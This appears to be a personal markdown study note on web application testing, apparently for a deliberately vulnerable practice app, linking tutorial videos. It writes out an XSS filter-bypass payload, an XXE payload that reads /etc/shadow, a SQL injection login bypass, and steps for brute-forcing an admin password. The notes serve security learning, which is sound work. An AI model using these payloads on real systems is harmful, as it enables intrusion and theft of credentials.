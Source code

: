 [Web App Testing: Episode 3 - XSS, SQL Injection, and Broken Access Control](https://www.youtube.com/watch?v=azYwfI26oXo&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=3)

## xss bypass
```js
<<a|ascript>alert('xss')</script>
```

##  Deprecated Interface XXE injection
Use a deprecated B2B interface that was not properly shut down. XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
- search xxe payload
- look for POST requests
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&xxe;</lastName>
</userInfo>
```
### Extras
- [w3schools.com/xml](https://www.w3schools.com/xml/xml_dtd.asp)
- [XXE Lab Breakdown: Exploiting XXE using external entities to retrieve files](https://www.youtube.com/watch?v=71dZaGfOVqw)
- [How to search for XXE!](https://www.youtube.com/watch?v=0DQnWalxYb4)

## Password Strength  - password bruteforcing 
Log in with the administrator's user credentials without previously changing them or applying SQL Injection.
Need to finish before sql injection:
```sql
' OR 1=1;--
```
Get the admin email address and bruteforce the simple password. 
### after 
- burp intruder 
- add payload list 
- let it run


